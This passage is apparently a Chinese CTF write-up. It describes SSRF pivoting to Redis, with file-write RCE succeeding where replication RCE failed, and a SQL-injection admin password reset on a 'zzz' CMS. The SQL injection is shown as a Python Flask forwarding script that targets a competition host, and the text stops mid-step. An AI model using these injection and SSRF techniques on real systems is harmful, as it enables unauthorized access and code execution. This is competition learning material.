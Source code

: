 然后curl去访问是正常的

接下来按着那个wp走发现flask,继续ssrf，发现redis，原本是wp里面的redis主从复制RCE直接打这题的，但是试了好久都没成功，明明有向我发送数据

redis ssrf还有一种RCE方法是写文件，这一题就是这么干的，因为那个wp我一直没往这方面想

然后去看了写redis发现它的版本是2.x主从复制RCE的那个exp是针对3.x和4.x  ：(

## easyzzz

百度一波网上的cve解出这题

简单说下过程

/plugins/webuploader/js/webconfig.php

拿到后台地址  admin539/

https://xz.aliyun.com/t/7414 ，利用前台sql注入修改管理员密码

搭个转发的方便测试

```python
import requests
from flask import Flask,request
app = Flask(__name__)


def access(exp):
    burp0_url = "http://eci-2ze9cofh8j38ebxctduq.cloudeci1.ichunqiu.com:80/plugins/sms/sms_list.php?act=del"
    burp0_cookies = {"Hm_lvt_2d0601bd28de7d49818249cf35d95943": "1604567758,1604568322,1604568358,1605921830", "Hm_lpvt_2d0601bd28de7d49818249cf35d95943": "1606016268", "PHPSESSID": "3fe85864bb4ad1dc9f25e5271281baf9", "__jsluid_h": "85077cc270ca34654c02f2479fcb9390", "zzz254_adminpass": "0"}
    burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"id[={exp} ;-- ]".format(exp=exp): "1"}
    return requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

@app.route('/')
def hello_world():
    payload = request.args.get("exp","")
    r=access(payload)
    print(payload)
    return r.text


app.run()
```



直接访问:
